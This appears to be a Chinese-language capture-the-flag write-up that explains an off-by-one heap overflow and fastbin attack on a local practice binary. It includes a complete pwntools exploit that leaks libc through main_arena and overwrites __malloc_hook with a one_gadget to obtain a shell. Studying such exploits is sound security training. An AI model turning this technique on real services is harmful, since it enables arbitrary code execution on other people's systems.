




# 标题

> practice-offbyone

## **原理**
offbyone+fastbin attack

## **环境**
Ubuntu 16.04 

## **工具**
ida pro，gdb

## **步骤**

看一下代码：



看到edit中有一个 strlen函数到 `\0` 结束，但是read函数 不会在字符串的结尾加上 `\0`。我们可以进行 offbyone。

- 首先，我们先malloc5个堆块，然后释放掉 堆块1。

```
add(0x28,'a'*0x28)#0
add(0xf8,'a'*0xf8)#1
add(0x68,'a'*0x68)#2
add(0x60,'a'*0x60)#3
add(0x60,'a'*0x60)#4

delete(1)
```

堆块1会被放入到 unsortedbin中，在这道题中 我们无法打印被delete掉堆块的内容。所以我们接下来进行offbyone的利用。

注：为什么把堆块malloc一个这样的大小，是因为这样生成的堆块会复用prev_size。这样我们利用offbyone的时候，才能修改到size部分。下图就是malloc之后的情况。



- 接下来利用offbyone的思路是这样的，如下图所示：



通过修改 被free掉的堆块的size部分，使之变大。面积可以覆盖到下一个没有被free掉的堆块

```
edit(0,'a'*0x28+'\x71') #将这个块的size 改成0x171
edit(2,'a'*0x60+p64(0x170)+'\x70') 

add(0xf8,'a'*0xf8)

show(2)
main_arena=u64(p.recvline(keepends=False).ljust(8,'\0'))-0x58
print hex(main_arena)
```
我们free掉 堆块1之后，改变了堆块1的大小，这样我们再malloc一个和先前堆块1一样的大小的堆块时，就会在unsorted bin中选一个堆块，切掉需要的大小，再将余下的部分放回 unsortedbin中。看下图：



由上图可见，我们并没有将堆块2 free掉，但是经过刚才的处理，他出现在了unsorted bin中。这样我们再show(2)，就能得到 main_arena+88的地址，进而得到libc的地址。

- 接下来我们要进行fastbin attack 

```
add(0x60,'a'*0x60)# 5 == 2

delete(3)
delete(2)
edit(5,p64(malloc_hook-0x10-3)[0:6])

add(0x60,+'a'*0x60)#2
add(0x60,'a'*3+p64(one_gadget)+'\n')
delete(2)
delete(5)
```

这里有一个问题就是为什么，要delete两次来触发 one_gadget。是因为所有的one_gadget都不能用，所以我们是通过malloc_printerr的方式触发，这样成功的可能性更大。

完整的exp：

```
from pwn import *

def add(size,note):
	p.sendlineafter(">> ","1")
	p.sendlineafter("length: ",str(size))
	p.sendafter("note:",note)

def edit(index,note):
	p.sendlineafter(">> ","2")
	p.sendlineafter("index: ",str(index))
	p.sendafter("note:",note)

def delete(index):
	p.sendlineafter(">> ","3")
	p.sendlineafter("index: ",str(index))

def show(index):
	p.sendlineafter(">> ","4")
	p.sendlineafter("index: ",str(index))


libc=ELF('/lib/x86_64-linux-gnu/libc.so.6')
p=process('./offbyone')

add(0x28,'a'*0x28)#0
add(0xf8,'a'*0xf8)#1
add(0x68,'a'*0x68)#2
add(0x60,'a'*0x60)#3
add(0x60,'a'*0x60)#4

#gdb.attach(p)
#raw_input()
delete(1)
edit(0,'a'*0x28+'\x71') #
edit(2,'a'*0x60+p64(0x170)+'\x70')#标志 堆块2 是一个空闲的值

add(0xf8,'a'*0xf8)

show(2)
main_arena=u64(p.recvline(keepends=False).ljust(8,'\0'))-0x58
print hex(main_arena)

libc_base=main_arena-libc.symbols['__malloc_hook']-0x10
print hex(libc_base)

system=libc_base+libc.symbols['system']
print "system",hex(system)


malloc_hook=libc_base+libc.symbols['__malloc_hook']


one_gadget=libc_base+0xf02a4

add(0x60,'a'*0x60)#5 == 2

# fastbin attack
delete(3)
delete(2)
edit(5,p64(malloc_hook-0x10-3)[0:6])

add(0x60,'/bin/sh\x00'+'a'*0x58)#2
add(0x60,'a'*3+p64(one_gadget)+'\n')
delete(2)
delete(5)

p.interactive()

```
## **参考阅读**

